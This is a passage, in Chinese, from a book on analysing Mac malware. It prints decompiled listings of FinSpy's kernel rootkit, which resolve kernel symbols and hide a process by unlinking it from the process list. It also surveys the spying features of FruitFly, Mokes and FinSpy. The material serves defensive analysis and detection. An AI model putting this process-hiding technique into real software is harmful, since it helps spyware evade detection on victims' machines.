虽然伪装成 Apple 组件或在恶意组件的文件名前加上句点确实提供了基本的隐蔽性，但这些策略也提供了强大的检测启发式方法。例如，存在一个隐藏进程或一个名为*com.apple.**且未经过 Apple 签名的二进制文件几乎肯定是被入侵的迹象。

FinSpy，一种商业跨平台间谍软件，是隐藏在明面上的技术中的一个显著例外。该软件于 2020 年被国际特赦组织揭露，具备通过内核级 rootkit 组件*logind.kext*隐藏进程的能力，并试图在严格监控的系统中保持不被检测到。^(12)

FinSpy 的*kext*文件包含一个名为`ph_init`的函数。（*ph*可能代表*process hiding*。）该函数使用名为`ksym_resolve_symbol_by_crc32`的函数解析多个内核符号（见清单 3-17）：

```
void ph_init() {

 1 *ALLPROC_ADDRESS = ksym_resolve_symbol_by_crc32(0x127a88e8); 

 2 *LCK_LCK = ksym_resolve_symbol_by_crc32(0xfef1d247); 
   *LCK_MTX_LOCK = ksym_resolve_symbol_by_crc32(0x392ec7ae);
   *LCK_MTX_UNLOCK = ksym_resolve_symbol_by_crc32(0x2472817c);

   return;
}
```

清单 3-17：内核符号解析（FinSpy）

根据内核扩展中的变量名称来看，这个函数似乎正在尝试解析内核全局进程（`proc`）结构体列表的指针 1，以及各种锁和互斥函数 2。

在名为`ph_hide`的函数中，*kext*通过遍历`ALLPROC_ADDRESS`指向的`proc`结构体列表，查找匹配项，从而隐藏一个进程（见清单 3-18）：

```
void ph_hide(int targetPID) {

    if (pid == 0x0) return;

    r15 = *ALLPROC_ADDRESS;
    if (r15 == 0x0) goto return;

SEARCH:
   rax = proc_pid(r15);
   rbx = *r15;
   if (rax == targetPID) goto HIDE;

 r15 = rbx;
   if (rbx != 0x0) goto SEARCH;

   return;

HIDE:
   r14 = *(r15 + 0x8);
   (*LCK_MTX_LOCK)(*LCK_LCK);
   *r14 = rbx;
   *(rbx + 0x8) = r14;
   (*LCK_MTX_UNLOCK)(*LCK_LCK);
   return;
```

清单 3-18：内核模式进程隐藏（FinSpy）

请注意，`HIDE`标签包含在找到目标进程时将执行的代码。此代码通过将目标进程从进程列表中解链来移除目标进程。移除后，该进程将对各种系统进程枚举工具（如活动监视器）隐藏。值得注意的是，由于 FinSpy 的内核扩展未签名，因此它无法在任何最近版本的 macOS 上运行，因为这些版本强制执行*kext*代码签名要求。有关 Mac rootkit（包括这一著名的进程隐藏技术）的更多内容，请参阅《重新审视 Mac OS X 内核 Rootkit》。^(13)

## 其他功能

针对 macOS 的恶意软件种类繁多，因此其能力范围也涵盖了各个方面。本章最后，我们将总结一下在 Mac 恶意软件中发现的其他一些功能。

一种在功能方面表现突出的 Mac 恶意软件类型是设计用来监视受害者的间谍软件。这类恶意软件通常具有非常全面的功能。例如，FruitFly，这是一种相当狡猾的 macOS 恶意软件样本，在野外隐匿了超过十年。 在一篇名为“[进攻性恶意软件分析：通过自定义 C&C 服务器解析 OSX.FruitFly](https://www.virusbulletin.com/uploads/pdf/magazine/2017/VB2017-Wardle.pdf)”的综合分析中，我详细介绍了该恶意软件相当广泛的功能和能力。^(14) 除了标准功能，如文件下载、上传和 Shell 命令执行外，它还可以被远程指派执行其他操作，如捕捉受害者的屏幕内容、评估并执行任意 Perl 命令、以及模拟鼠标和键盘事件。后者在 Mac 恶意软件中较为独特，使得远程攻击者能够与被感染系统的 GUI 进行交互；例如，它可以关闭可能因恶意软件其他行为触发的安全警报。

另一个功能齐全的 Mac 恶意软件示例是 Mokes。作为一种网络间谍植入程序，它支持典型功能，如文件下载和命令执行，但还具有搜索并窃取 Office 文档、捕捉用户的屏幕、音频和视频、监控可移动媒体以扫描有趣文件并收集的能力。任何被这个复杂植入程序感染的设备，都使远程攻击者能够持续控制系统，并且可以不受限制地访问用户的文件和活动。

说到功能全面的恶意软件，商业恶意软件（通常被称为*间谍软件套件*）常常脱颖而出。例如，上文提到的 FinSpy 的 macOS 变种采用模块化设计，提供了一份相当令人印象深刻的功能清单。这些功能包括当然的一些基本功能，如执行 Shell 命令，但还包括以下内容：

+   音频录制

+   摄像头录制

+   屏幕录制

+   列出远程设备上的文件

+   列举可达的 Wi-Fi 网络

+   按键记录（包括虚拟键盘）

+   记录被修改、访问和删除的文件

+   偷窃电子邮件（来自 Apple Mail 和 Thunderbird）

## 接下来

如果你有兴趣深入探讨本书第一部分涉及的主题，我每年都会发布一份“Mac 恶意软件报告”。这些报告涵盖了该年所有新恶意软件的感染途径、持久性机制和功能。^(15)

在下一章中，我们将讨论如何有效地分析恶意样本，帮助你掌握成为一名熟练的 Mac 恶意软件分析师所需的技能。

## 脚注
